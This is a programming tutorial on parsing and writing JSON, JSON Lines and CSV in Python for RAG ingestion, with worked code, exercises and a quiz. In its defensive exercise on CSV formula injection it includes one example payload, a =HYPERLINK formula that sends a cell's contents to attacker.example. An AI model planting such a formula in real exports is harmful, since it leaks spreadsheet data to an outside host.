

Not every document is prose. A large share of what a RAG system ingests arrives as **structured data**: help-desk articles exported as CSV, product catalogues and API responses in JSON, ticket histories, asset registers, FAQ spreadsheets. And a RAG system *produces* structured data at every stage: parsed documents, chunks with metadata, evaluation datasets and logs are all written to disk somewhere, and JSON Lines is the format most pipelines use for that.

This lesson teaches the two formats properly: how Python's `json` and `csv` modules map them onto Python objects, where those mappings lose information, what JSON Lines is and why it suits pipelines, and how to turn a table row into a document a retriever can find. It assumes the string skills from [Text processing](/learn/data-processing/text-processing).

## Learning objectives

- Describe how JSON values map to Python types, and identify the cases where a round trip through JSON changes or loses data.
- Read and write CSV files correctly with the `csv` module, including quoted fields, embedded line breaks, byte order marks and delimiters other than commas.
- Read and write JSON Lines files in a streaming, crash-tolerant way.
- Convert tabular rows into retrievable documents with stable identifiers and useful metadata.
- Recognise the security risks of both formats, including CSV formula injection.

## Prerequisites

- [Text processing](/learn/data-processing/text-processing): strings, splitting and whitespace.
- [Dataclasses and Pydantic](/learn/python-for-rag-engineering/dataclasses-and-pydantic): defining record types and validating them.
- [Indexing pipeline](/learn/rag-architecture-fundamentals/indexing-pipeline): the stages structured records will flow through.

## Why this matters

JSON and CSV look simple enough that people parse them by hand: `line.split(",")` for CSV, string formatting for JSON. Both habits produce pipelines that work on the first file and corrupt the hundredth.

The damage is quiet and specific. An article ID `00412` read by a tool that guesses types becomes the integer `412`, and every chunk from that article now has an identifier that no longer matches the help-desk system, so updates and deletions silently stop working. An answer containing a comma, split naively, puts half the answer in the "team" column. A spreadsheet export starts with an invisible byte order mark, so the first column is called `Article ID` and every lookup of `row["Article ID"]` fails. A JSON file written in one piece is half-written when the process is killed, and the whole file becomes unreadable rather than just its last record.

On the other side, structured sources are often the *best* content a RAG system has: short, curated, with clear fields for title, answer, owner and date. Getting them in cleanly, with their metadata attached, gives retrieval precise material and gives filters something to filter on.

## The intuition

A CSV file is a stack of index cards where each card has the same boxes in the same order, and the first card tells you what the boxes are called. To read it you need to know only three things: where one box ends and the next begins (the delimiter), where one card ends (the line break), and what to do when the content of a box itself contains a delimiter or a line break (quoting). Everything that goes wrong with CSV is a disagreement about one of those three.

A JSON document is a set of nested labelled boxes: a box can contain a number, a piece of text, a yes/no, nothing, a list of boxes, or another set of labelled boxes. It carries its own structure, so there is less to agree on. What goes wrong with JSON is mostly about the boxes Python has and JSON does not (dates, tuples, sets, very large numbers) and about how the file is written.

## How it works

### JSON: the data model

**JSON** (JavaScript Object Notation, standardised as RFC 8259) has six kinds of value: objects (unordered collections of string-keyed members), arrays, strings, numbers, the literals `true` and `false`, and `null`. Python's `json` module maps them as follows.

| JSON | Python when loading | Python values that dump to it |
| --- | --- | --- |
| object | `dict` | `dict` |
| array | `list` | `list`, `tuple` |
| string | `str` | `str` |
| number (integer) | `int` | `int` |
| number (fraction) | `float` | `float` |
| `true` / `false` | `True` / `False` | `True` / `False` |
| `null` | `None` | `None` |

The four functions are `json.dumps(obj)` (object to string), `json.loads(s)` (string to object) and their file versions `json.dump(obj, f)` and `json.load(f)`.

The table already shows where round trips change data:

- **Tuples become lists.** `("hr", "leave")` comes back as `["hr", "leave"]`, so a record containing a tuple is not equal to itself after a round trip.
- **Keys become strings.** JSON object keys must be strings, so `{1: "one"}` comes back as `{"1": "one"}`.
- **Some types do not exist.** `datetime`, `date`, `set`, `Decimal`, `bytes` and your own classes raise `TypeError` unless you supply a `default=` function that converts them, typically to ISO 8601 strings for dates.
- **Not-a-number is not JSON.** Python writes `float("nan")` as the bare token `NaN`, which the JSON standard does not allow. Python reads it back happily; strict parsers in other languages reject the whole file. Pass `allow_nan=False` to fail early instead.
- **Duplicate keys are silently resolved.** `{"days": 25, "days": 20}` loads as `{"days": 20}`. If that matters, pass an `object_pairs_hook` that inspects the pairs and raises.
- **Large integers are exact in Python but not everywhere.** Python's `int` has no size limit, but JavaScript represents all numbers as 64-bit floating point, which holds integers exactly only up to $2^{53} - 1 = 9{,}007{,}199{,}254{,}740{,}991$. An ID such as `9007199254740993` written as a JSON number will be altered by a JavaScript front end. Identifiers belong in strings.

### JSON: writing it well

Three `dumps` arguments matter in practice. `ensure_ascii=True` (the default) escapes every non-ASCII character, so `£400` is written as `"£400"`: valid, but unreadable and larger. Use `ensure_ascii=False` and write the file as UTF-8. `indent=2` makes files readable for humans, at the cost of size; use it for configuration and reports, not for millions of records. `sort_keys=True` makes the output deterministic, which helps when you hash records or compare files.

### JSON Lines

A pipeline that writes a million chunks to one JSON array has two problems. To read any record you must parse the whole file, and if the writer crashes before the closing `]`, the file is invalid. **JSON Lines** (also called JSONL or newline-delimited JSON) fixes both with one convention: the file contains one complete JSON value per line, UTF-8 encoded, separated by `\n`. A JSON string cannot contain a raw newline (it must be escaped as `\n`), so each record is guaranteed to sit on exactly one line.

This gives JSONL properties that suit pipelines well:

1. **Streaming.** Read with `for line in f`, holding one record in memory at a time.
2. **Appending.** Add records by opening in append mode and writing lines; nothing else in the file changes.
3. **Crash tolerance.** A crash corrupts at most the last line. A reader that skips unparseable lines (and reports them) recovers everything else.
4. **Parallelism.** Split a large file by lines and process the parts independently.
5. **Tool support.** Standard command-line tools work: `wc -l` counts records, `head` shows the first few, `grep` finds one.

Most RAG pipelines use JSONL for every intermediate artefact: parsed documents, chunks, evaluation questions, retrieval logs.

### CSV: the format that is not quite a standard

**CSV** (comma-separated values) is described by RFC 4180, but that document records common practice rather than enforcing it, and real files vary. The rules that most CSV writers follow are:

1. Each record is one line, ending in a line break (`\r\n` in the RFC; often `\n` in practice).
2. Fields are separated by a delimiter, usually a comma.
3. A field that contains the delimiter, a double quote or a line break is enclosed in double quotes.
4. A double quote inside a quoted field is written twice: `"He said ""yes"""`.
5. The first record is often, but not always, a header naming the columns.

Rule 3 is why `line.split(",")` fails: the answer `"25 days a year; up to 5 unused days carry over, used by 31 March."` contains a comma, and a field can even contain a line break, so one record may span several physical lines. Only a real parser, which tracks whether it is inside quotes, gets this right.

Real files add further variation. Spreadsheet programs in locales that use a comma as the decimal separator write **semicolons** as the delimiter. Some exports use tabs (TSV). Many spreadsheet programs write UTF-8 with a **byte order mark** (BOM), the invisible character `` at the start of the file. Older exports may not be UTF-8 at all; [Encoding and Unicode](/learn/data-processing/encoding-and-unicode) covers detection.

### CSV in Python

The `csv` module handles all of this if you use it correctly.

- **Open the file with `newline=""`.** The `csv` module does its own line-ending handling, including line breaks inside quoted fields. If Python's text layer translates line endings first, embedded line breaks can be mangled, and on Windows the writer emits an extra `\r` on every line.
- **Open with `encoding="utf-8-sig"`** when reading files that may have a BOM. This codec removes a BOM if present and behaves exactly like UTF-8 if not, so it is a safe default for reading.
- **Use `csv.DictReader`** to get each row as a dictionary keyed by the header, so code says `row["Title"]` rather than `row[1]` and survives column reordering. `reader.fieldnames` holds the header; `reader.line_num` holds the number of physical lines read so far, which is not the record number when fields contain line breaks.
- **Everything is a string.** The `csv` module never converts types. `"00412"` stays `"00412"`, an empty field is `""`. That is a feature: you decide what each column means.
- **`csv.Sniffer`** can guess the delimiter and quoting from a sample of the file. Treat its answer as a hint and validate the resulting header, because on unusual data it guesses wrong.
- **Write with `csv.writer` or `csv.DictWriter`**, which quote fields when needed.

### pandas and type inference

`pandas.read_csv` is convenient for analysis and dangerous for ingestion, because it **infers types**. A column of article IDs like `00412` becomes integers and loses its leading zeros. A column with an empty cell becomes floating point, with `NaN` for the gap, so `1200` turns into `1200.0`. Strings such as `NA`, `N/A` and `null` are read as missing values, which is unfortunate for a product called "NA". For ingestion, pass `dtype=str` and `keep_default_na=False` so that every cell arrives exactly as written, then convert columns deliberately.

### From rows to documents

A table row is not yet something a retriever can use. Each row needs to become a document with three parts.

1. **Text** to embed and search: usually the human-readable fields, assembled in a consistent order with their labels or a title. "Annual leave\n\n25 days a year..." retrieves better than "00412,Annual leave,25 days...,HR,2025-01-06", because the embedding model was trained on prose, not on comma-joined fields.
2. **A stable identifier** derived from the source's own key (`faq-00412`), so that a re-export updates the same document rather than creating a duplicate. [Document identifiers](/learn/document-engineering/document-identifiers) covers this in depth.
3. **Metadata** for filtering and citation: owner team, last-updated date, source file and row number.

Fields that are better filtered on than searched (team, date, status) go in metadata; fields that answer questions go in the text. For wide numeric tables, where each row is a measurement rather than an answer, row-by-row documents work poorly; [Structured document ingestion](/learn/document-engineering/structured-document-ingestion) and [Tables and structured content](/learn/advanced-document-parsing/tables-and-structured-content) discuss the alternatives.



## In code

**The problem.** Meridian's help desk exports its FAQ articles as a CSV file from a spreadsheet program: it has a byte order mark, Windows line endings, an answer containing a comma, an answer containing a line break, and article IDs with leading zeros. Turn each row into a document, write the documents to a JSON Lines staging file, and read them back in a way that survives a crash halfway through writing.

**Dependencies.** Standard library only (`csv`, `json`, `pathlib`).

```bash
python --version   # 3.10 or later
```

```python
import csv
import json
from pathlib import Path

workdir = Path("t3dir")
workdir.mkdir(exist_ok=True)

# A help-desk export as a spreadsheet program writes it: a UTF-8 byte order
# mark, Windows line endings, a comma and a line break inside quoted fields.
export = (
    "Article ID,Title,Answer,Team,Updated\r\n"
    "00412,Annual leave,\"25 days a year; up to 5 unused days carry over, used by 31 March.\",HR,2025-01-06\r\n"
    "00413,Home-office budget,\"£400 for equipment.\nContractors are not eligible.\",HR,2025-02-10\r\n"
    "00977,VPN error E-4021,\"The VPN client is out of date. Update it from the IT portal.\",IT,2025-03-03\r\n"
)
(workdir / "faq.csv").write_bytes(export.encode("utf-8"))

# --- Read: utf-8-sig strips the BOM; newline="" lets csv handle line breaks ---
documents = []
with open(workdir / "faq.csv", encoding="utf-8-sig", newline="") as f:
    reader = csv.DictReader(f)
    print("columns:", reader.fieldnames)
    for row_no, row in enumerate(reader, start=1):
        text = f"{row['Title']}\n\n{row['Answer']}"
        documents.append({
            "doc_id": f"faq-{row['Article ID']}",   # kept as a string: leading zeros matter
            "text": text,
            "metadata": {"team": row["Team"], "updated": row["Updated"], "source": "faq.csv",
                         "row": row_no, "ends_on_line": reader.line_num},
        })

# --- Write JSON Lines: one complete JSON object per line ---
out = workdir / "documents.jsonl"
with open(out, "w", encoding="utf-8") as f:
    for doc in documents:
        f.write(json.dumps(doc, ensure_ascii=False) + "\n")

print(out.read_text(encoding="utf-8").splitlines()[1][:110], "...")

# --- Read JSON Lines back, one line at a time, reporting bad lines ---
with open(out, "a", encoding="utf-8") as f:
    f.write('{"doc_id": "faq-00999", "text": "Laptops are refre')   # simulate a crash mid-write

def read_jsonl(path: Path):
    with open(path, encoding="utf-8") as f:
        for line_no, line in enumerate(f, 1):
            if not line.strip():
                continue
            try:
                yield json.loads(line)
            except json.JSONDecodeError as exc:
                print(f"skipping line {line_no}: {exc}")

loaded = list(read_jsonl(out))
print(len(loaded), "documents loaded")
for doc in loaded:
    print(doc["doc_id"], doc["metadata"]["team"], doc["metadata"]["row"], doc["metadata"]["ends_on_line"], repr(doc["text"][:45]))
```

```output
columns: ['Article ID', 'Title', 'Answer', 'Team', 'Updated']
{"doc_id": "faq-00413", "text": "Home-office budget\n\n£400 for equipment.\nContractors are not eligible.", "m ...
skipping line 4: Unterminated string starting at: line 1 column 33 (char 32)
3 documents loaded
faq-00412 HR 1 2 'Annual leave\n\n25 days a year; up to 5 unused '
faq-00413 HR 2 4 'Home-office budget\n\n£400 for equipment.\nContr'
faq-00977 IT 3 5 'VPN error E-4021\n\nThe VPN client is out of da'
```

**The important lines.**

- `encoding="utf-8-sig"` removes the byte order mark, so the first column is `Article ID`, not `Article ID`.
- `newline=""` hands raw line endings to the `csv` module, which then correctly treats the `\n` inside the quoted home-office answer as part of the field rather than the end of the record.
- `csv.DictReader(f)` takes column names from the first row; `row["Article ID"]` is the string `"00412"`, leading zeros intact, because `csv` never converts types.
- `f"faq-{row['Article ID']}"` builds a stable identifier from the source's own key, prefixed by the source name so it cannot collide with IDs from other systems.
- `text = f"{row['Title']}\n\n{row['Answer']}"` assembles the searchable text in a form close to prose, with the title as its first paragraph. Team and date go into metadata, where they can be used for filtering rather than diluting the embedding.
- `json.dumps(doc, ensure_ascii=False) + "\n"` writes one record per line, with `£` as a real character. The newlines inside `text` are escaped as `\n` by `dumps`, which is what keeps each record on one physical line.
- `read_jsonl` is a generator: it yields one record at a time, so memory use does not grow with file size, and it catches `json.JSONDecodeError` per line, so one bad line costs one record.

**What the output means.** The header came through clean. The second JSONL line shows the home-office document with its internal line break escaped as `\n` inside the JSON string. The simulated crash left a truncated fourth line; the reader reported it with the line number and position and still loaded the three complete records. The last two columns of the final listing show the difference between the record number and `reader.line_num`: the home-office row is record 2 but ends on physical line 4 of the CSV, because its answer spans two lines. Record numbers are what you want in metadata.

**Errors people commonly hit.**

- `KeyError: 'Article ID'`: the file has a BOM and was opened as plain `utf-8`. The script below shows what the header looks like then.
- Fields shifted by one column, or a record split in two: the file was split by hand, or opened without `newline=""`.
- `_csv.Error: field larger than field limit (131072)`: a field exceeds the module's default size limit, often because an unbalanced quote made the parser swallow the rest of the file. Find the stray quote first; raise the limit with `csv.field_size_limit()` only if the field is genuinely that large.
- `TypeError: Object of type datetime is not JSON serializable`: pass `default=str` (or a function producing ISO 8601 strings) to `dumps`.
- `json.JSONDecodeError: Extra data`: you called `json.loads` on a whole JSONL file. Parse it line by line.

**How to extend it.** Validate each row before converting it (exercise 3 uses Pydantic), write rejected rows to a separate file with the reason, and make the write atomic by writing to `documents.jsonl.tmp` and renaming it into place when complete, so that readers never see a half-written file.

### Two more behaviours to see

Reading the same export as plain UTF-8 keeps the BOM in the first column name, and the `Sniffer` detects a semicolon-delimited file:

```python
import csv
from pathlib import Path

path = Path("t3dir/faq.csv")
with open(path, encoding="utf-8", newline="") as f:     # plain utf-8, not utf-8-sig
    reader = csv.DictReader(f)
    print(reader.fieldnames[0], repr(reader.fieldnames[0]))
    row = next(reader)
    print("Article ID" in row)

sample = "id;title;team\n1;Annual leave;HR\n2;VPN error E-4021;IT\n"
dialect = csv.Sniffer().sniff(sample)
print("detected delimiter:", repr(dialect.delimiter))
```

```output
Article ID 'Article ID'
False
detected delimiter: ';'
```

The first column name *prints* as `Article ID`, because the BOM is invisible, but its `repr` reveals `` at the front, and the lookup fails. This is why the bug is so confusing in practice.

And the JSON round-trip behaviours from the "How it works" section, demonstrated:

```python
import json
import math
from datetime import date

# 1. Type mapping and round-trips
record = {"id": 7, "title": "Annual leave", "days": 25, "carry_over": 5.0,
          "tags": ("hr", "leave"), "draft": False, "owner": None}
s = json.dumps(record)
print(s)
back = json.loads(s)
print(back["tags"], type(back["carry_over"]).__name__, back == record)

# 2. Keys are always strings
print(json.loads(json.dumps({1: "one", 2.5: "x"})))

# 3. Non-ASCII: escaped by default
print(json.dumps({"budget": "£400"}), json.dumps({"budget": "£400"}, ensure_ascii=False))

# 4. NaN is accepted by default but is not valid JSON
print(json.dumps({"score": math.nan}))
try:
    json.dumps({"score": math.nan}, allow_nan=False)
except ValueError as exc:
    print("ValueError:", exc)

# 5. Duplicate keys: the last one wins, silently
print(json.loads('{"days": 25, "days": 20}'))

# 6. Types JSON does not have
try:
    json.dumps({"updated": date(2025, 3, 31)})
except TypeError as exc:
    print("TypeError:", exc)
print(json.dumps({"updated": date(2025, 3, 31)}, default=str))

# 7. Big integers survive in Python, but not in every consumer
print(json.loads('{"id": 9007199254740993}')["id"])
```

```output
{"id": 7, "title": "Annual leave", "days": 25, "carry_over": 5.0, "tags": ["hr", "leave"], "draft": false, "owner": null}
['hr', 'leave'] float False
{'1': 'one', '2.5': 'x'}
{"budget": "£400"} {"budget": "£400"}
{"score": NaN}
ValueError: Out of range float values are not JSON compliant: nan
{'days': 20}
TypeError: Object of type date is not JSON serializable
{"updated": "2025-03-31"}
9007199254740993
```

`back == record` is `False` only because the tuple came back as a list. The last line is exact in Python; the same JSON parsed by JavaScript's `JSON.parse` would give `9007199254740992`, one less, because that integer is beyond the range a 64-bit float holds exactly.

Finally, pandas with and without type inference:

```bash
pip install pandas
```

```python
import io
import pandas as pd

data = "Article ID,Title,Views\n00412,Annual leave,1200\n00977,VPN error E-4021,\n"
print(pd.read_csv(io.StringIO(data)).to_dict("records"))
print(pd.read_csv(io.StringIO(data), dtype=str, keep_default_na=False).to_dict("records"))
```

```output
[{'Article ID': 412, 'Title': 'Annual leave', 'Views': 1200.0}, {'Article ID': 977, 'Title': 'VPN error E-4021', 'Views': nan}]
[{'Article ID': '00412', 'Title': 'Annual leave', 'Views': '1200'}, {'Article ID': '00977', 'Title': 'VPN error E-4021', 'Views': ''}]
```

With default inference the IDs lost their zeros and the views column became floating point because one cell was empty. With `dtype=str` and `keep_default_na=False`, every cell is the exact text of the file.

## A real-world example

The HR team at Meridian maintained a spreadsheet of benefits FAQs, and the Platform team added a nightly job that exported it to CSV and ingested it into AskMeridian. For two months it worked. Then HR reported that the assistant was quoting an outdated answer about the home-office equipment budget alongside the current one.

The investigation found two copies of every FAQ in the index. The ingestion job had been rewritten to use `pandas.read_csv` for convenience, and the article IDs, which started with zeros, had become integers: `faq-00413` was now `faq-413`. The pipeline's update logic replaced documents by ID, so every article was treated as new, and the old copies, including the superseded 2023 wording of the budget answer (£250), were never deleted. Retrieval returned whichever copy scored higher for each query.

The fix was small: read with `dtype=str, keep_default_na=False`, validate that every ID matches the pattern `^\d{5}$`, and fail the job loudly if it does not. The clean-up was larger: the team had to find and delete every document with a malformed ID. They also added a check to the nightly job that compares the number of documents in the index for a source with the number of rows in the export, and alerts if they differ by more than a handful. The duplicate problem would have triggered it on the first night.

## Common mistakes

- **Splitting CSV lines with `split(",")`.** Breaks on any quoted comma or embedded line break and shifts every later field.
- **Opening CSV files without `newline=""`.** Embedded line breaks are mishandled and Windows output gains stray `\r` characters.
- **Ignoring the byte order mark.** The first column name silently includes `` and lookups by name fail.
- **Letting a library infer types on identifiers.** Leading zeros vanish, long numeric IDs lose precision, and document identity breaks.
- **Storing identifiers as JSON numbers.** JavaScript consumers corrupt integers above $2^{53}$; store IDs as strings.
- **Writing a whole corpus as one JSON array.** Readers must load it all at once, and a crash mid-write makes the whole file invalid.
- **Writing `NaN` into JSON.** Python accepts it; other languages' parsers reject the file.
- **Embedding the raw row.** `00412,Annual leave,...,HR,2025-01-06` embeds worse than a labelled, prose-like rendering, and puts filterable fields in the vector instead of the metadata.

## Best practices

- Use the `csv` module for every CSV file, opened with `newline=""` and, for reading, `encoding="utf-8-sig"`.
- Treat every CSV cell as a string, then convert each column deliberately with validation.
- Store intermediate pipeline artefacts as JSON Lines, UTF-8, `ensure_ascii=False`, one record per line.
- Read JSONL as a stream and report, rather than crash on, malformed lines; write it to a temporary file and rename it when done.
- Derive document IDs from the source system's key, as strings, prefixed by the source name.
- Validate records at the boundary with a schema (Pydantic or similar), and count rows in against documents out.
- Convert dates to ISO 8601 strings explicitly, and pass `allow_nan=False` when writing JSON for other systems.

## Performance considerations

- **Memory.** `json.load` on a 2 GB JSON array needs the whole text in memory plus the Python objects built from it, which typically take several times more space than the text. Python objects carry overhead per value: a small dictionary costs a couple of hundred bytes before its contents. JSONL read line by line needs memory for one record at a time.
- **Embeddings in JSON are bulky.** A 384-dimensional float vector written as JSON text takes roughly 384 × 20 characters, about 7.5 KB, against 1.5 KB as raw 32-bit floats. For two million chunks that is about 15 GB of text against 3 GB of binary. Keep vectors in the vector store or a binary format (NumPy `.npy`, Parquet), and keep JSONL for text and metadata.
- **Speed.** The standard `json` module is implemented in C and parses tens to hundreds of megabytes a second on ordinary hardware; faster third-party parsers exist (`orjson` is common) if profiling shows JSON is your bottleneck, which in RAG ingestion it rarely is.
- **pandas.** Loading a CSV with pandas is fast but materialises the whole table; for files larger than memory, read with the `csv` module row by row, or pass `chunksize=` to `read_csv` to get an iterator of smaller frames.
- **Columnar formats.** For large tables you will query by column (analytics, evaluation results), Parquet is smaller and faster than CSV; for interchange with spreadsheets and people, CSV remains the lingua franca.

## Security considerations

- **CSV formula injection.** When your system *exports* CSV (an evaluation report, a log of user questions) and someone opens it in a spreadsheet program, any cell beginning with `=`, `+`, `-` or `@` may be evaluated as a formula. A user who asks AskMeridian a question starting with `=HYPERLINK(...)` can then plant a link or data-exfiltrating formula in the analyst's spreadsheet. Neutralise such cells on export (exercise 2) or export to a format spreadsheets do not evaluate.
- **Untrusted JSON size and depth.** A small file can describe a deeply nested structure; very deep nesting makes Python's parser raise `RecursionError`. Cap input sizes before parsing, and catch both `JSONDecodeError` and `RecursionError` for untrusted input.
- **Never `eval` data.** Old code sometimes parses JSON-like text with `eval` or reads pickled files from untrusted sources. Both execute arbitrary code. Use `json.loads` (or `ast.literal_eval` for Python literals) and never unpickle data you did not write.
- **Personal data in exports.** Help-desk and HR exports often carry names, e-mail addresses and employee numbers in columns you do not need. Select the columns you ingest explicitly rather than ingesting everything.

## Summary

- JSON maps cleanly onto Python dictionaries, lists, strings, numbers, booleans and `None`, but tuples, non-string keys, dates, `NaN`, duplicate keys and very large integers do not survive round trips unchanged.
- JSON Lines (one JSON value per line) is the right format for pipeline artefacts: streamable, appendable and crash-tolerant.
- CSV needs a real parser: open with `newline=""`, read with `utf-8-sig`, use `DictReader`, and treat every cell as text until you convert it deliberately.
- Type inference (pandas defaults) silently corrupts identifiers; preserve source keys as strings and build stable document IDs from them.
- A row becomes a document by assembling readable text, a stable ID and filterable metadata; exported CSV must be protected against formula injection.

## Exercises

**1. Predict the round trip.** What does `json.loads(json.dumps({"ids": {1, 2}}))` do? And `json.loads(json.dumps({(1, 2): "pair"}))`? Explain each, and say how you would serialise a set.

<details><summary>Show solution</summary>

Both raise `TypeError` inside `dumps`, before `loads` is reached. A `set` has no JSON equivalent (`Object of type set is not JSON serializable`). A tuple *value* would become a list, but a tuple *key* is not allowed: JSON keys must be strings, and `dumps` converts only `str`, `int`, `float`, `bool` and `None` keys (raising `TypeError: keys must be str, int, float, bool or None, not tuple`). Serialise a set as a sorted list, `sorted(ids)`, so that the output is deterministic, and convert it back with `set(...)` on load. For tuple keys, choose a string encoding such as `"1,2"` or restructure into a list of objects.

</details>

**2. Neutralise formula injection.** Write `safe_cell(value)` that prefixes a single quote to any value starting with `=`, `+`, `-`, `@`, tab or carriage return, and use it with `csv.DictWriter` to export three logged questions, one of which is a `=HYPERLINK(...)` formula.

<details><summary>Show solution</summary>

```python
import csv
import io

DANGEROUS = ("=", "+", "-", "@", "\t", "\r")

def safe_cell(value: str) -> str:
    """Neutralise values a spreadsheet would treat as a formula."""
    return "'" + value if value.startswith(DANGEROUS) else value

rows = [
    {"question": "How much annual leave do I get?", "answer": "25 days"},
    {"question": '=HYPERLINK("http://attacker.example/?d="&A1,"Click")', "answer": "-"},
    {"question": "@SUM(1+1)", "answer": "-5 days is not a valid balance"},
]
buf = io.StringIO()
writer = csv.DictWriter(buf, fieldnames=["question", "answer"])
writer.writeheader()
for row in rows:
    writer.writerow({k: safe_cell(v) for k, v in row.items()})
print(buf.getvalue())
```

```output
question,answer
How much annual leave do I get?,25 days
"'=HYPERLINK(""http://attacker.example/?d=""&A1,""Click"")",'-
'@SUM(1+1),'-5 days is not a valid balance
```

The leading quote makes spreadsheet programs treat the cell as text. Note two things in the output: `DictWriter` quoted the formula cell and doubled its internal quotes, as rule 4 of the format requires; and the defence has a cost, since a legitimate value such as `-5 days` now carries a visible quote. That trade-off is why some teams prefer to export to a format spreadsheets do not evaluate, or to escape only in files intended for spreadsheets.

</details>

**3. Validate JSONL records.** Define a Pydantic model `DocumentRecord` with `doc_id` matching `^faq-\d{5}$`, a non-empty `text` and a `metadata` dictionary of strings or integers. Validate three JSONL lines, one valid, one with the ID `faq-412` and one with empty text, printing each error with its line number and field.

<details><summary>Show solution</summary>

```python
import json
from pydantic import BaseModel, Field, ValidationError

class DocumentRecord(BaseModel):
    doc_id: str = Field(pattern=r"^faq-\d{5}$")
    text: str = Field(min_length=1)
    metadata: dict[str, str | int]

lines = [
    '{"doc_id": "faq-00412", "text": "Annual leave is 25 days.", "metadata": {"team": "HR", "row": 1}}',
    '{"doc_id": "faq-412", "text": "Home-office budget", "metadata": {"team": "HR", "row": 2}}',
    '{"doc_id": "faq-00977", "text": "", "metadata": {"team": "IT"}}',
]
good = []
for line_no, line in enumerate(lines, 1):
    try:
        good.append(DocumentRecord.model_validate_json(line))
    except ValidationError as exc:
        for err in exc.errors():
            print(f"line {line_no}: {err['loc'][0]}: {err['msg']}")
print(len(good), "valid:", [d.doc_id for d in good])
```

```output
line 2: doc_id: String should match pattern '^faq-\d{5}$'
line 3: text: String should have at least 1 character
1 valid: ['faq-00412']
```

`model_validate_json` parses and validates in one step, so malformed JSON and schema violations both arrive as `ValidationError`. The ID pattern is exactly the check that would have caught the leading-zero bug in the real-world example. A production job would write rejected lines and their errors to a quarantine file and fail if the rejection rate exceeded a threshold. [Data validation](/learn/document-engineering/data-validation) develops this.

</details>

**4. Design: a staging format.** The Platform team must choose a format for the "chunks" artefact between chunking and embedding: about two million chunks, each with text (average 1,500 characters), a dozen metadata fields, and later a 384-dimensional vector. Several workers write chunks in parallel, and the embedding job must be restartable. Compare one JSON array, one JSONL file per source document, one big CSV, and Parquet, and recommend a design.

<details><summary>Show solution</summary>

- **One JSON array:** cannot be streamed or appended, and one crash invalidates it. Rejected.
- **One big CSV:** metadata fields that are lists or nested (headings path, tags) do not fit columns without inventing an encoding, and multi-line chunk text depends on every writer and reader quoting correctly. Parallel writers would need to coordinate on one file. Rejected for this artefact.
- **JSONL, one file per source document (or per batch):** each worker writes its own files, so there is no contention; each file is written to a temporary name and renamed when complete, so readers never see partial files; the embedding job can record which files it has finished and resume after a crash; nested metadata is natural. Text size is about 2,000,000 × ~1.6 KB ≈ 3 GB, which is fine.
- **Parquet:** compact and fast for columnar reads, a good fit for the *vectors* (2,000,000 × 384 × 4 bytes ≈ 3 GB as float32, compared with roughly 15 GB as JSON text) and for analytics, but less convenient for appending record by record and for inspecting with command-line tools.

A reasonable recommendation: JSONL for chunks (text and metadata), written per document with atomic renames and a manifest of completed files; vectors written by the embedding job as Parquet or `.npy` files keyed by chunk ID, or straight into the vector store. Vectors should not be embedded in JSONL text.

</details>

## Check your understanding

```quiz
[
  {
    "q": "Why must a CSV file be opened with `newline=\"\"` when using the `csv` module?",
    "options": ["It makes reading faster", "It lets the `csv` module handle line endings itself, including line breaks inside quoted fields", "It removes the byte order mark", "It forces UTF-8 decoding"],
    "answer": 1,
    "why": "The csv module needs the raw line endings to recognise records correctly; translation by the text layer can mangle embedded line breaks and add stray carriage returns on write."
  },
  {
    "q": "A CSV header prints as `Article ID` but `row[\"Article ID\"]` raises `KeyError`. What is the most likely cause?",
    "options": ["The file uses semicolons", "The first column name starts with an invisible byte order mark because the file was opened as `utf-8` rather than `utf-8-sig`", "`DictReader` lower-cases keys", "The file has Windows line endings"],
    "answer": 1,
    "why": "Spreadsheet exports often begin with `\\ufeff`, which is invisible when printed but part of the key; `utf-8-sig` removes it."
  },
  {
    "q": "Which property makes JSON Lines more crash-tolerant than a single JSON array?",
    "options": ["It is compressed", "Each record is a complete JSON value on its own line, so a crash can only damage the last line", "It forbids nested objects", "It stores numbers as strings"],
    "answer": 1,
    "why": "Because records are independent lines, a reader can skip a truncated final line and recover every other record, whereas an unterminated array invalidates the whole file."
  },
  {
    "q": "What does `json.loads('{\"days\": 25, \"days\": 20}')` return in Python?",
    "options": ["It raises `JSONDecodeError`", "`{'days': 25}`", "`{'days': 20}`", "`{'days': [25, 20]}`"],
    "answer": 2,
    "why": "Python's json module keeps the last value for a duplicated key, silently. Use `object_pairs_hook` if duplicates must be detected."
  },
  {
    "q": "Why should document identifiers be stored as JSON strings rather than numbers?",
    "options": ["Strings sort faster", "Numbers are not valid JSON", "Leading zeros are lost and integers above 2^53 are not exact in JavaScript consumers", "Pydantic cannot validate numbers"],
    "answer": 2,
    "why": "Identifiers are labels, not quantities; as numbers they lose leading zeros and may be altered by systems that use 64-bit floating point."
  }
]
```

## Further reading

- [Python documentation: `json` — JSON encoder and decoder](https://docs.python.org/3/library/json.html): including the notes on `NaN`, duplicate keys and `object_pairs_hook`.
- [Python documentation: `csv` — CSV File Reading and Writing](https://docs.python.org/3/library/csv.html): dialects, the `newline=""` requirement and `Sniffer`.
- [RFC 8259: The JavaScript Object Notation (JSON) Data Interchange Format](https://www.rfc-editor.org/rfc/rfc8259) (Bray, 2017), including its note on interoperable integer ranges.
- [RFC 4180: Common Format and MIME Type for Comma-Separated Values (CSV) Files](https://www.rfc-editor.org/rfc/rfc4180) (Shafranovich, 2005).
- [JSON Lines](https://jsonlines.org/): the short specification of the format.
- [OWASP: CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection): the formula-injection attack and mitigations.
